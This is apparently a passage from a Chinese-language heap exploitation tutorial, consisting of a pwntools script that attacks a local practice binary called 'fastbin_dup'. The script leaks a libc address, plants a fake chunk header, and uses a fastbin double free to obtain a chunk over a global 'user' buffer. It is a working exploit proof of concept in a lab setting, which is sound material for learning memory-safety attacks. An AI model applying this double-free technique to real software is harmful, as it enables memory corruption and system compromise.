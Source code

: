 下面用pwntools测试这个方案：

```python
 #!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("fastbin_dup")
libc = elf.libc
index = 0

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size, data):
    global index
    io.send("1")
    io.sendafter("malloc size: ", f"{size}")
    io.sendafter("malloc data: ", data)
    io.recvuntil("your option is: ")
    index += 1
    return index - 1 

def free(i):
    io.send("2")
    io.sendafter("index: ", str(i))
    io.recvuntil("your option is: ")

io = start()
io.recvuntil("puts @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

io.recvuntil("Enter your name: ",)
# io.send('jc')
io.send(p64(0x00)+p64(0x21))

io.recvuntil("your option is: ")
io.timeout = 0.1

chunk_a = malloc(1, 'aaaa')
chunk_b = malloc(1, 'bbbb')

free(chunk_a)
free(chunk_b)
free(chunk_a)

chunk_c = malloc(1, p64(elf.sym.user))
malloc(1, 'a')
malloc(1, 'a')
malloc(1, 'hello')
io.interactive()
```
